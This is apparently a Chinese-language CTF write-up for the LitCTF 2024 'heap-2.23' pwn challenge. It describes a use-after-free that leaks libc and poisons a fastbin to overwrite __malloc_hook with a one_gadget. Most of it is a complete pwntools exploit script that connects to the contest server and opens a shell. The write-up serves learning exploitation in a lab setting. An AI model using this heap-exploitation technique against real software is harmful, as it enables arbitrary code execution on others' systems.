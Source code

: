 ```yaml
---
title: [LitCTF 2024]heap-2.23
date: 2024-11-11 13:00:00 +0800
categories: [Uaf, Heap, Unsort_leak_libc]
tags: [ctf,pwn]     # TAG names should always be lowercase
---
```

# [LitCTF 2024]heap-2.23

`UAF`|`malloc_hook`

> Problem: [[LitCTF 2024]heap-2.23](https://www.nssctf.cn/problem/5614)

## 思路

* 解题大致思路
  edit功能存在一个UAF，通过该漏洞修改fd达到申请任意位置区块的目的，再利用edit功能修改对应区块地址的内容，达到利用目的。
  我这里选择了劫持`__molloc_hook`函数，需要注意的是，我们需要找到一个区块匹配所需要的结构体，详细可以调试看看`mallo_hook-35`这个位置，再往后填充，将`one_gadget`覆盖到`__malloc_hook`的位置。

## EXP

* 具体攻击代码

```python3
from pwn import *
context.terminal=["tmux",'splitw','-h']
context.log_level = 'debug'
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28035)
elf = ELF('./heap')
lib = ELF('/root/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')

def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'?',str(idx))
    io.sendlineafter(b'?',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'?',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'?',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'?',str(idx))
    io.sendlineafter(b'content : \n',content)

create(0,400)   #0
create(1,10)    #1
delete(0)
show(0)
mallo_hook = u64(io.recvuntil(b'\n')[-7:-1].ljust(8,b'\x00'))-0x68
print(hex(mallo_hook))
delete(1)
lib_base = mallo_hook-lib.sym['__malloc_hook']
one_gadget = lib_base+0xf1247

create(2,0x60)
create(3,0x60)

delete(2)
delete(3)

edit(2,p64(mallo_hook-35))
create(4,0x60)
create(5,0x60)
create(6,0x60)
edit(6,cyclic(19)+p64(one_gadget))

create(7,0x60)
io.interactive()
```

## 总结

* 对该题的考点总结